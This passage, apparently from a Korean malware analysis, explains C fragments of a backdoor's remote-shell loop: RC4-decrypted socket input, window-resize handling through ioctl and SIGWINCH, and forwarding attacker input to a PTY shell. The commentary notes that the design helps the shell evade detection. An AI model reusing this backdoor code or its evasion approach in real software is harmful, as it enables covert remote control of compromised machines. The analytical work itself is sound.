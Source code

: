         ```c
        int count;
        unsigned char *p, *d;
        d = (unsigned char *)buf;
        count = cread(sock, buf, BUF);
        if (count <= 0) break;
        ```

        - 읽을 데이터가 있다면 `cread` 함수를 통해 `sock`으로부터 데이터를 읽어 `buf` 공간에 저장한다. 이때, `rc4` 함수를 통해 `sock`으로 받은 데이터를 앞서 저장한 `decrypt_ctx` 키 값을 이용하여 복호화하여 `buf` 공간에 저장한다.

        ```c
        p = memchr(buf, ECHAR, count);
        ```

        - `buf`에서 `ECHAR`(0x0b) 문자의 첫 번째 등장 위치를 찾아 해당 위치를 반환하고, 못 찾으면 null을 반환한다.
        - `ECHAR`는 윈도우 크기 변경 시에 발생하는 신호로, 공격자의 윈도우 사이즈가 변경했을 경우에 원격 쉘의 크기 또한 자동으로 초기화 한다. 이는 SSH 연결을 사용하는 것처럼 공격자의 사용자 경험을 향상 시키는 것 뿐 아니라, 비정상적인 쉘 동작이 시스템 관리자나 보안 도구에 의해 탐지될 가능성이 있기 때문에 PTY 기반의 완전한 터미널 기능을 제공함으로써, 백도어 쉘이 정상적인 사용자 세션처럼 보이게 하여 탐지를 어렵게 만드는 효과를 가지고 있다.

        ```c
        if (p) {
                unsigned char wb[5];
                int rlen = count - ((long) p - (long) buf);
                struct winsize ws;

                if (rlen > 5) rlen = 5;
                memcpy(wb, p, rlen);
                if (rlen < 5) {
                        ret = cread(sock, &wb[rlen], 5 - rlen);
                }

                ws.ws_xpixel = ws.ws_ypixel = 0;
                ws.ws_col = (wb[1] << 8) + wb[2];
                ws.ws_row = (wb[3] << 8) + wb[4];
                ioctl(pty, TIOCSWINSZ, &ws);
                kill(0, SIGWINCH);

                ret = write(pty, buf, (long) p - (long) buf);
                rlen = ((long) buf + count) - ((long)p+5);
                if (rlen > 0) ret = write(pty, p+5, rlen);
        }
        ```

        - `ECHAR`을 찾았을 경우에, 윈도우 크기 변경 로직을 처리한다.
        - 5 바이트 크기의 `wb` 변수를 선언함. 이는 `ECHAR`(1 바이트)와 윈도우 크기 정보 (4 바이트: 가로 2 바이트, 세로 2 바이트)를 저장하는 데 사용된다.
        - `ECHAR`이 발견된 위치 `p`부터 `buf`의 끝까지 남은 바이트 수를 계산하여 `rlen`에 저장하고, 윈도우 크기 정보는 총 5 바이트이기에 `rlen`이 5보다 크더라도 5로 제한하여 `p` 값을 `wb` 변수에 저장한다.
        - 이후에 `wb`로부터 윈도우 크기를 파싱하여 `winsize ws`에 저장하고, `ioctl()` 호출을 통해 `pty`의 윈도우 크기를 변경하고, `kill()` 호출을 통해 터미널 크기가 변경되었음을 알려 쉘이 화면출력을 재조정하도록 한다.
        - `p - buf`를 계산하여 `ECHAR`이 발견되기 이전에 수신된 데이터를 `pty`에 전달하여 쉘의 표준 입력으로 전달되어 실행되도록 한다.
        - 이후에 `p + 5`를 계산하여 윈도우 크기 정보 이후에 남아있는데이터를 `pty`에 전달하여 쉘의 표준 입력으로 전달되어 실행되도록 한다.

        ```c
        else
                if (write(pty, d, count) <= 0) break;
        ```
